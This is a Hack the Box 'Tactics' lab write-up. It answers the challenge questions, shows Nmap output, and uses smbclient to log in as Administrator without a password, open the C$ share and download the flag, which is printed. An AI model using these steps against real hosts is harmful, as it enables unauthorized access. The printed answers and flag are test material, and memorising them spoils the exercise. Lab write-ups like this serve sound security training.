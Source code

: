 # Tactics
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Tactics
* Topic: [[SMB]]
* Difficulty: Very easy
* Date: 17-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. Which Nmap switch can we use to enumerate machines when our packets are otherwise blocked by the Windows firewall? 
 - **-Pn**
2. What does the 3-letter acronym SMB stand for? 
- **server message block**
3. What port does SMB use to operate at? 
- **445**
4. What command line argument do you give to `smbclient` to list available shares? 
- **-L**
5. What character at the end of a share name indicates it's an administrative share? 
- **$**
6. Which Administrative share is accessible on the box that allows users to view the whole file system? 
- **C$**
7. What command can we use to download the files we find on the SMB Share?
- **get**
8. Which tool that is part of the Impacket collection can be used to get an interactive shell on the system? 
- **PSexec.py**

---
## Flag:
Nmap:

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV -Pn 10.129.77.1
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-17 09:56 EDT
Nmap scan report for 10.129.77.1
Host is up (0.066s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-17T13:56:59
|_  start_date: N/A

Nmap done: 1 IP address (1 host up) scanned in 59.12 seconds
```

It's running SMB on port 445. We can use `smbclient` to list the shares. If the Administrator user on the host is configured without a password, we should be able to log on without any problems.

Command:

`smbclient -L 10.129.229.124 -U Administrator`

`-L`: List the shars on host.

`-U`: Log on as user, in this case Administrator.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient -L 10.129.77.1 -U Administrator 
Enter WORKGROUP\Administrator's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.77.1 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

If we connect to `C$` we can get access to the file sysem on the host.

 `smblient \\\\10.129.229.124\\C$ -U Administrator`
 
`\\\\`: Equals to "\\\\" when interpreted, means root of directory.

`\\`: Equals to "\\" when interpreted, means new directory level.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient \\\\10.129.77.1\\C$ -U Administrator
Enter WORKGROUP\Administrator's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  $Recycle.Bin                      DHS        0  Wed Apr 21 11:23:49 2021
  Config.Msi                        DHS        0  Wed Jul  7 14:04:56 2021
  Documents and Settings          DHSrn        0  Wed Apr 21 11:17:12 2021
  pagefile.sys                      AHS 738197504  Sun Apr 17 09:51:08 2022
  PerfLogs                            D        0  Sat Sep 15 03:19:00 2018
  Program Files                      DR        0  Wed Jul  7 14:04:24 2021
  Program Files (x86)                 D        0  Wed Jul  7 14:03:38 2021
  ProgramData                        DH        0  Wed Apr 21 11:31:48 2021
  Recovery                         DHSn        0  Wed Apr 21 11:17:15 2021
  System Volume Information         DHS        0  Wed Apr 21 11:34:04 2021
  Users                              DR        0  Wed Apr 21 11:23:18 2021
  Windows                             D        0  Wed Jul  7 14:05:23 2021

                3774463 blocks of size 4096. 1158911 blocks available
```

Let's get the flag.

```console
smb: \> cd Users\Administrator\Desktop\
smb: \Users\Administrator\Desktop\> ls
  .                                  DR        0  Thu Apr 22 03:16:03 2021
  ..                                 DR        0  Thu Apr 22 03:16:03 2021
  desktop.ini                       AHS      282  Wed Apr 21 11:23:32 2021
  flag.txt                            A       32  Fri Apr 23 05:39:00 2021

                3774463 blocks of size 4096. 1158895 blocks available
smb: \Users\Administrator\Desktop\> get flag.txt
getting file \Users\Administrator\Desktop\flag.txt of size 32 as flag.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \Users\Administrator\Desktop\> exit
       
┌──(kali㉿kali)-[~/Downloads]
└─$ cat flag.txt             
f751c19eda8f61ce81827e6930a1f40c
```

**Flag:** `f751c19eda8f61ce81827e6930a1f40c`

---
**Tags:** [[HackTheBox]]